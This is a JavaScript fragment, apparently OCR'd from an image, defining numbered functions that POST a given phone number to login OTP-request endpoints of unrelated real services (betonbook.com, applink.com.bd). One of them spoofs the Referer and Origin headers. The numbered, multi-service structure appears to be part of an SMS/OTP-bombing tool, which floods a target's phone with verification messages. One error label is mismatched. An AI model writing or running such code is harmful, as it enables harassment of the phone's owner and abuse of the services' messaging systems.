         const result = await response.json();

      
        if (result.otpsent === 'false' || result.status === 'failed') {
            throw new Error(`API 12 Failure: ${result.error || 'Unknown error'}`);
        }

        return result;
    } catch (error) {
        console.error('API 12 Error:', error);
        throw error;
    }
}

async function api_13(phone) {
 const data = {
 phone: phone,
 language: 1
 };
 
    try {
        const response = await fetch('https://api.betonbook.com/api/v5/auth/otp/request', {
            method: 'POST',
           headers: {
           "Content-Type": "application/json"
           },
           body: JSON.stringify(data)
        });

        const result = await response.json();

      
        if (result.otpsent === 'false' || result.status === 'failed') {
            throw new Error(`API 14 Failure: ${result.error || 'Unknown error'}`);
        }

        return result;
    } catch (error) {
        console.error('API 13 Error:', error);
        throw error;
    }
}

async function api_14(phone) {
 const data = {
 "msisdn": "88" + phone
 };
 
    try {
        const response = await fetch('https://applink.com.bd/appstore-v4-server/login/otp/request', {
            method: 'POST',
           headers: {
           'Content-Type': 'application/json',
           'User-Agent': 'Mozilla/5.0',
           'Referer': 'https://applink.com.bd/',
           'Origin': 'https://applink.com.bd'
           },
           body: JSON.stringify(data)
        });
